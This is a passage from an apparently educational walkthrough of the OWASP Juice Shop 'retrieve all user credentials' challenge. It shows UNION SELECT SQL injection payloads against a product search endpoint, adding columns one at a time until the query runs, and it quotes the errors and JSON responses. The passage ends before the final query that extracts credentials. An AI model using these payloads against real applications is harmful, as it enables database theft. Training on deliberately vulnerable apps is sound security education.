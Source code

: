 ![epilogue on NPM](media/blog4/npm_epilogue.png)

### **Retrieve a list of all user credentials via SQL Injection**

1. During the [Order the Christmas special offer of 2014](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_order_the_christmas_special_offer_of_2014) challenge you learned that the `/rest/products/search` endpoint is susceptible to SQL Injection into the `q` parameter.
2. The attack payload you need to craft is a `UNION SELECT` merging the data from the user’s DB table into the products returned in the JSON result.
3. As a starting point we use the known working `'))--` attack pattern and try to make a `UNION SELECT` out of it
4. Searching for `')) UNION SELECT * FROM x--` fails with a `SQLITE_ERROR: no such table: x` as you would expect. But we can easily guess the table name or infer it from one of the previous attacks on the *Login* form where even the underlying SQL query was leaked.
5. Searching for `')) UNION SELECT * FROM Users--` fails with a promising `SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns` which least confirms the table name.
6. The next step in a `UNION SELECT`attack is typically to find the right number of returned columns. As the *Search Results* table in the UI has 3 columns displaying data, it will probably at least be three. You keep adding columns until no more `SQLITE_ERROR` occurs (or at least it becomes a different one):
    1. `')) UNION SELECT '1' FROM Users--` fails with `number of result columns` error
    2. `')) UNION SELECT '1', '2' FROM Users--` fails with `number of result columns` error
    3. `')) UNION SELECT '1', '2', '3' FROM Users--` fails with `number of result columns` error
    4. (…)
    5. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM Users--` *still fails* with `number of result columns` error
    6. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users--` finally gives you a JSON response back with an extra element `{"id":"1","name":"2","description":"3","price":"4","deluxePrice":"5","image":"6","createdAt":"7","updatedAt":"8","deletedAt":"9"}`.
7. Next you get rid of the unwanted product results changing the query into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users--` leaving only the "`UNION`ed" element in the result set